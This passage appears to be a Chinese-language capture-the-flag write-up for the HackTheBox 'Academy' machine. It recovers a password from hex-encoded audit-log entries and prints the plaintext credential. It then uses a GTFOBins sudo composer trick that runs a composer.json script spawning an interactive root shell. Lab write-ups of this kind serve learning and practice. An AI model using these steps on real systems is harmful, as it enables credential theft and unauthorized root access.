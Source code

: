 `cat * | grep "uid=1002" |less`

![]({{ site.url }}/assets/Academy_215.assets/20201115101856209_2049663103.png)

看上去是一个成功切换用户的日志记录，根据这个格式，继续挖掘看看是否有其他的日志记录。

`cat * | grep "uid=1002" |grep 'comm="su"'|less`

![]({{ site.url }}/assets/Academy_215.assets/20201115100955256_1377411313.png)

`6D7262336E5F41634064336D79210A`

![]({{ site.url }}/assets/Academy_215.assets/20201115101330430_278222931.png)

`https://plautrba.fedorapeople.org/how-to-decode-hex-strings-in-audit-logs.html`

```bash
python -c 'import binascii; print binascii.a2b_hex("6D7262336E5F41634064336D79210A")'
```
![]({{ site.url }}/assets/Academy_215.assets/20201115101545294_1020901798.png)

切换到mrb3n

`mrb3n:mrb3n_Ac@d3my!`

![]({{ site.url }}/assets/Academy_215.assets/20201115102654272_902590594.png)

![]({{ site.url }}/assets/Academy_215.assets/20201115102847851_15630950.png)

gtfobins

`https://gtfobins.github.io/gtfobins/composer/`

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo /usr/bin/composer --working-dir=$TF run-script x
```

![]({{ site.url }}/assets/Academy_215.assets/20201115103139394_716371716.png)

